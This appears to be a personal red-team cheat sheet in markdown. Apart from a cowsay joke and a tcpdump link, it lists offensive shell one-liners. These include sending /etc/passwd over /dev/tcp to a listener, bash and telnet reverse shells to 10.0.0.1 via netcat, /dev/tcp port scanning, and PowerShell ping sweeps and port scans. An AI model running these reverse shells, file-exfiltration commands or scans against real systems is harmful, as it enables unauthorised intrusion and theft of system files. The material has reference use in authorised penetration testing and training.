 # Notes, red-team materials, testing, etc.

# Set-ExecutionPolicy Unrestricted

### First things first.  Set up cowsay and lolcat
    requires pip3 & cowsay
    while true; clear; do echo "I'm a cow" | cowsay -f $(ls /usr/share/cowsay/cows/ | sort -R | head -n1) "I'm a cow" | lolcat -a; sleep 5; clear; done

### Neat things you can do with tcpdump
https://www.middlewareinventory.com/blog/tcpdump-capture-http-get-post-requests-apache-weblogic-websphere/

### Netcat without netcat
Check for existence of similar tools:
Gnu Netcat
Ncat
Socat
Linkcat
Nc.py (sometimes called Pycat) http://atlas.r4780y.com/resources/atlasutils-2.2.5.tgz

#### /dev/tcp
File transfers:
Box 1: # nc -nlvp 4444
Box 2: $ cat /etc/passwd > /dev/tcp/10.0.0.1/4444

Reverse shell:
Box 1: # nc -nlvp 8080
Box 2: $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

Port scanner ("Connection refused" means port is closed):
Single port:    $ echo > /dev/tcp/10.0.0.1/22
Multiple ports: $ port=1; while \[ $port –lt 1024 ]; do echo > /dev/tcp/\[IPaddr]/$port; \[ $? == 0 ] && echo $port "is open" >> /tmp/ports.txt; port=`expr $port + 1`; done

#### If /dev/tcp can't be used, try telnet
Reverse shell:
Box 1 (where you type commands):   # nc -nlvp 4444
Box 1 (where you view the output): # nc -nlvp 4445
Box 2: $ telnet 10.0.0.1 4444 | /bin/bash | telnet 10.0.0.1 4445

### Powershell
Ping sweep:
    PS C:\> 1..255 | % {ping –n 1 10.10.10.$_ | sls ttl}
    1..255 | % {echo "10.10.10.$_"; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}
Port scan:
    21..80 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.0.0.1",$_)) “Port $_ is open" } 2>$null
